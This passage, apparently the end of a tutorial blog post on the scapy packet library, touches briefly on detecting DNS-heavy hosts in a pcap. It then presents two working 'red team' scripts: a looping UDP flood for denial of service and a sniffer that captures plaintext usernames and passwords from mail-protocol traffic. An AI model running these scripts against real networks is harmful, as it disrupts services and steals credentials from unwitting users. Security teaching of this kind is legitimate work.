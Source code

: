 So the purpose of the script would be to create a dictionary of IP addresses found in the pcap file and identify such IP addresses that would generate the DNS traffic.  
Here, the threshold is 100 and it probably would create a lot of false positives depending on the victim's network (i.e. for a coorporate network we would have a lot of false positives with that threshold).  The blog goes through details of how you could use statistics to find the threshold value in a sensible way.

## Examples [red team]
Beside using scapy to solve a CTF challenge or maybe create a SIEM type of software, scapy can be also used for neferious purposes.

### Example 1: UDP flood for DoS
An example of using scapy for flooding a target IP with UDP packets, which as a result causes the system to process these packets rather than legitimate ones (resulting in a Dos), is the following simple PoC script:  
```python
from scapy.all import *

send(IP(dst="some_target_IP")/fuzz(UDP()),loop=1)
```
Using the ```fuzz(UDP())``` function, the script generates random variations of UDP packets, and since it also uses ```loop=1``` which makes the script run continuously, it overwhelms the target machine resulting in a Dos.

### Example 2: Sniffing traffic to steal plaintext credentials
Another cool example of using scapy for malicious purposes is the one where you could make a sniffer and try to find plaintext credentials in TCP packets:  

```python
from scapy.all import sniff, TCP, IP

def packet_callback(packet):
    if packet[TCP].payload:
        mypacket = str(packet[TCP].payload)
        if 'user' in mypacket.lower() or 'pass' in mypacket.lower():
            print(f"[*] Destination: {packet[IP].dst}")
            print(f"[*] {str(packet[TCP].payload)}")

sniff(filter='tcp port 110 or tcp port 25 or tcp port 143',prn=packet_callback, store=0)
```
With this script, a sniffer is set to run continuously, filtering on specific tcp ports and calling the ```packet_callback``` function for each new packet.  

If the found packet has some payload (data) inside the TCP layer, then the script checks whether words such as ```user``` or ```pass``` exist in it, since that would mean potential credentials are being transmitted.  

If all the above are true, the script prints the destination of the packet (where the credentials would be used) but also the credentials themselfs.

## Summary
In this post we did an overview of how scapy can be used for both defensive and offensive purposes, but also for just some fun CTF challenges.  
The attributes that each packet has and how these could be used for all the forementioned purposes are too many and would require a really extensive post, which was not the goal of this post.  
